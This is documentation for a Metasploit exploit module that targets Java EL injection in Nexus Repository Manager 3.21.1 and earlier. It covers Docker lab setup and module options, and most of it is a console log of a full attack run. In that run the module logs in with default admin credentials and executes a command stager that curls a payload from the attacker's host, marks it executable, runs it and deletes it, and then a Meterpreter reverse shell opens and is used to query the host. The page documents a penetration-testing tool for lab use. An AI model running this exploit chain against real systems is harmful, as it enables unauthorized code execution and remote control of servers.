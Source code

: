 ## Vulnerable Application

### Description

This module exploits a Java Expression Language (EL) injection in Nexus
Repository Manager versions up to and including 3.21.1 to execute code
as the Nexus user. Tested against 3.21.1-01.

### Setup

Install Docker using the [official instructions](https://docs.docker.com/get-docker/).
Follow the instructions for your platform and distribution (if using
Linux). If you're using OS X, you may prefer to `brew cask install docker`
after installing [Homebrew](https://brew.sh/).

Run `docker run -d -p 8081:8081 --name nexus sonatype/nexus3:3.21.1`
(note the added `3.21.1` tag) as per Sonatype's [Docker Hub instructions](https://hub.docker.com/r/sonatype/nexus3/#running).

### Targets

```
Id  Name
--  ----
0   Nexus Repository Manager <= 3.21.1
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### USERNAME

Set this to a valid Nexus username.

### PASSWORD

Set this to a valid Nexus password.

## Scenarios

### Nexus Repository Manager 3.21.1-01 from [Docker Hub](https://hub.docker.com/r/sonatype/nexus3)

```
msf5 > use exploit/linux/http/nexus_repo_manager_el_injection
msf5 exploit(linux/http/nexus_repo_manager_el_injection) > options

Module options (exploit/linux/http/nexus_repo_manager_el_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            yes       Nexus password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8081             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   admin            yes       Nexus username
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nexus Repository Manager <= 3.21.1


msf5 exploit(linux/http/nexus_repo_manager_el_injection) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(linux/http/nexus_repo_manager_el_injection) > set lhost 192.168.1.3
lhost => 192.168.1.3
msf5 exploit(linux/http/nexus_repo_manager_el_injection) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Nexus 3.21.1-01 is a vulnerable version.
[*] Logging in with admin:admin
[+] Logged in with NXSESSIONID=8b6fd077-1830-4e2b-90e8-2997d260b5c0;
[*] Using URL: http://0.0.0.0:8080/t6NXrxF
[*] Local IP: http://192.168.1.3:8080/t6NXrxF
[*] Generated command stager: ["curl -so /tmp/hgzeytII http://192.168.1.3:8080/t6NXrxF", "chmod +x /tmp/hgzeytII", "/tmp/hgzeytII", "rm -f /tmp/hgzeytII"]
[*] Executing command: curl -so /tmp/hgzeytII http://192.168.1.3:8080/t6NXrxF
[+] Successfully executed command: curl -so /tmp/hgzeytII http://192.168.1.3:8080/t6NXrxF
[*] Client 192.168.1.3 (curl/7.61.1) requested /t6NXrxF
[*] Sending payload to 192.168.1.3 (curl/7.61.1)
[*] Command Stager progress -  50.00% done (54/108 bytes)
[*] Executing command: chmod +x /tmp/hgzeytII
[+] Successfully executed command: chmod +x /tmp/hgzeytII
[*] Command Stager progress -  70.37% done (76/108 bytes)
[*] Executing command: /tmp/hgzeytII
[+] Successfully executed command: /tmp/hgzeytII
[*] Command Stager progress -  82.41% done (89/108 bytes)
[*] Executing command: rm -f /tmp/hgzeytII
[+] Successfully executed command: rm -f /tmp/hgzeytII
[*] Command Stager progress - 100.00% done (108/108 bytes)
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:53094) at 2020-04-07 19:25:38 -0500
[*] Server stopped.

meterpreter > getuid
Server username: no-user @ 282665c16215 (uid=200, gid=200, euid=200, egid=200)
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Red Hat Enterprise Linux 8 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
